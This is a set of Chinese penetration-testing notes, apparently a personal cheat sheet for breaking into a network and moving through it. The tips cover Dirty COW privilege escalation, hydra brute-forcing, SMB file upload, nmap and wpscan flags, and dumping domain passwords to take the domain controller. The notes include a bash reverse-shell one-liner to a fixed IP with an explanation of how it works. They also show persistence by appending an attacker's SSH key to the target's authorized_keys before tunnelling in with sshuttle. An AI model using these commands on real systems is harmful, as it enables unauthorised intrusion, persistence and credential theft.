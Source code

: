 工具: Navicat for mysql

uname -a 在2.622以上可以用脏牛提权(其的ssh不能断)

use auxiliary/scanner/smb/smb_version 扫存活主机


socksCap   socks 主机连接代理

hydra 密码爆破然后登录smbclient //ip/C$ -U 帐号 -P 密码,然后用put传文件上去,就不用3389了

内网不出网的话弹不回来 msf只能用bind_tcp

一般tmp和ect里会有敏感文件


那shell后上传文件有三种:3389,psexec.exe,smbclient,scp

上线后，开启3389或者，msf提权，抓域密码，然后就拿域控了


nmap :T4:速度  -sV:服务版本  -O：主机操作系统 -sC:使用脚本引擎功能 -sn d段0/24:主机存活


wpscan 一定要加 -e ap:扫插件


bash -i >& /dev/tcp/192.168.37.131/8080 0>&1
bash -i：产生一个bash的交互环境；>&：将联合符号前面的内容与后面的内容相结合然后一起重定向给后者；/dev/tcp/192.168.37.131/8080：与目标主机192.168.37.131/8080端口建立一个TCP连接；0>&1：将标准输入与标准输出相结合，重定向到标准输出内容；



反弹shell后，如果有帐号密码，可以试试 su - 帐号

python3 -c 'import pty;pty.spawn("/bin/bash")' 回话交换

做隧道:把kali的秘钥写进去，然后用ssh做流量转出来，然后就可以代理了？
1，在kali的.ssh中 ssh-keygen生成秘钥在id_rsa.pub中
2,复制该秘钥写到靶机的authorized_keys里去(echo "秘钥">>l路径)
3，kali中用sshuttle连接(sshuttle -vr root@ip 内网ip.0/24 --ssh-cmd "ssh -i ./id_rsa")
4 成功(连上某台ssh可以用这个ssh搭建一个ssh的流量隧道，那么这整个内网我们都可以访问了)


拿下ssh(反弹shell也行),然后搞不了路由就搭隧道，再继续搞内网